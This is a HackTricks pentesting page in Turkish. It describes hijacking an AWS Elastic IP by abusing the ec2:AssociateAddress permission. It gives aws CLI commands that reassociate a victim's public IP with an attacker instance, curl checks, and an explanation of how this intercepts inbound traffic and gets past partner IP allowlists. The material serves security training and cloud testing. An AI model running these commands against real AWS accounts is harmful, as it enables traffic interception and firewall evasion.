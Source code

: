 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Özet

Abuse `ec2:AssociateAddress` (ve isteğe bağlı olarak `ec2:DisassociateAddress`) kullanarak bir Elastic IP (EIP)'yi kurban instance/ENI'den saldırgan instance/ENI'ye yeniden ilişkilendirin. Bu, EIP'ye yönelen gelen trafiği saldırgana yönlendirir ve ayrıca saldırganın izin verilen genel IP ile giden trafik başlatmasına izin vererek harici ortakların güvenlik duvarlarını atlamasını sağlar.

## Önkoşullar
- Hedef EIP allocation ID aynı hesap/VPC içinde.
- Kontrolünüzde olan attacker instance/ENI.
- İzinler:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` EIP allocation-id ve attacker instance/ENI üzerinde
- `ec2:DisassociateAddress` (isteğe bağlı). Not: `--allow-reassociation` önceki ilişkilendirmeyi otomatik olarak kaldırır.

## Saldırı

Değişkenler
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Kurbanın EIP'sini ayırın veya tespit edin (lab yeni bir tane ayırır ve kurbana iliştirir)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) EIP'in şu anda victim service'e çözüldüğünü doğrulayın (örnek: banner kontrolleri)
```bash
curl -sS http://$EIP | grep -i victim
```
3) EIP'yi attacker'a yeniden ilişkilendir (victim'den otomatik ayrılır)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) EIP'nin artık attacker servisine çözüldüğünü doğrulayın
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Delil (taşınmış ilişkilendirme):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Etki
- Inbound impersonation: Hijacked EIP'ye gelen tüm trafik attacker instance/ENI'ye yönlendirilir.
- Outbound impersonation: Attacker, allowlisted public IP'ten geliyormuş gibi görünen trafiği başlatabilir (partner/dış kaynak IP filtrelerini atlatmak için kullanışlı).

{{#include ../../../../banners/hacktricks-training.md}}
